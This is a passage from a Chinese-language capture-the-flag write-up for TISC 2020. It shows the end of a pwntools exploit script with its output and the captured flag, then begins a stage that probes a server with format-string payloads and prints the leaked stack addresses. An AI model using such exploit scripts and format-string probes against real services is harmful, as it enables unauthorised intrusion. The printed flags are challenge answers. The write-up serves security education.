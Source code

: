 ```
    p.recvuntil("THREAD: \33[0m")
    p.sendline(payload)

    # Get the flag.
    p.recvuntil('\x1b[H')
    flag = p.recvline()
    log.success("Flag: %s" % flag.decode("utf-8"))


if __name__ == '__main__':
    main()
```

```
python exploit.py
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 12123: Done
[+] Flag: TISC20`{`m4ngl3d_b4ngl3d_wr4ngl3d`}`
```

**Flag:** `TISC20`{`m4ngl3d_b4ngl3d_wr4ngl3d`}``



## STAGE 6: Blind Boss Battle

连接服务器，可以发现存在字符串漏洞：

```
r10@kali:~/tisc$ nc fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg 42000
Welcome to Anoroc Riga Server

  Key-Value Storage Service

==============================

Number of users pwned today: 5908
Function Not Yet Implemented

AAAA
AAAA
%p %p %p %p %p %p %p
0x7fe685d08a03 (nil) 0x7fe685d08980 0x55f90fc8d0a0 (nil) 0x7fff2fc20690 0x55f90fc8a2e0
```

但当使用以下payload时，并没有发现`AAAAABBBBB`出现在堆栈泄露中：

```
AAAAABBBBA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
AAAABBBB.0x7f8ea2940a03.(nil).0x7f8ea2940980.0x5647b7e9d0a0.(nil).0x7ffcea9d97d0.0x5647b7e9a2e0.(nil).0x7f8ea277c0b3.0x7f8ea2979620.0x7ffcea9d97d8.0x100000000.0x5647b7e9a100.0x5647b7e9a2e0.0x23f94e9d138646bf.0x5647b7e9a1f0.0x7ffcea9d97d0.(nil).(nil).0xdc009ba63e6646bf.0xdce40a72934846bf.(nil).(nil).(nil).0x1.0x7ffcea9d97d8.0x7ffcea9d97e8.0x7f8ea297b190.(nil).(nil).0x5647b7e9a1f0.0x7ffcea9d97d0.(nil).(nil).0x5647b7e9a21e.0x7ffcea9d97c8.0x1c.0x1.0x7ffcea9daf5c.(nil).0x7ffcea9daf61.0x7ffcea9dafa3.
```

